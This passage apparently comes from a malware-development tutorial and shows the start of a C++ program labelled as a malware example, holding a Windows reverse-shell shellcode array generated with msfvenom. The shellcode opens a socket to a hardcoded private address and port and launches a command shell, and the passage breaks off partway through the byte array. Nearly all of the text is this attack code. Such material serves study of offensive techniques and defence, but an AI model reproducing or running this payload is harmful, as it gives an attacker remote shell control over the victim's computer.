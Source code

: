 ![msfvenom](./images/6/2021-09-18_20-28.png){width="75%"}

Let's start with simple C++ code of our malware:
```cpp
/*
cpp implementation malware example with msfvenom payload
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// our payload: reverse shell (msfvenom)
unsigned char my_payload[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
"\x49\x89\xe5\x49\xbc\x02\x00\x11\x5c\x0a\x09\x01\x06\x41\x54"
"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
"\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
"\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
"\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
"\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
"\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
"\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
"\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
"\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
"\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
"\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
"\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
```